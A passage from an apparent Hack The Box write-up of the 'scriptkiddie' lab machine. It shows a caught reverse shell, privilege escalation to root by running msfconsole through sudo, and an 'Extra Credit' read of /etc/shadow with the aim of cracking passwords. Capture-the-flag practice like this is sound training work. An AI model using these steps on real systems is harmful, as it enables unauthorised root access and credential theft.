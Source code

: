 We can see that the reverse-shell picked up, as pwn.
What can I run as root? Oh, metasploit? You don't say:
```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# nc -lvnp 8990
listening on [any] 8990 ...
connect to [10.10.14.111] from (UNKNOWN) [10.10.10.226] 52940
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$
```

Since we're essentially an escalated shell from here, we just cat root/root.txt for the final flag.

# Extra Credit
I did, also, cat /etc/shadow so I can smash the user passwords if I wanted to. If for whatever reason I was unable to gather the flag right away and needed to SSH back into the machine, I could potentially crack these and go that route as our foothold.
```bash
msf6 > cat /etc/shadow
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /etc/shadow
```

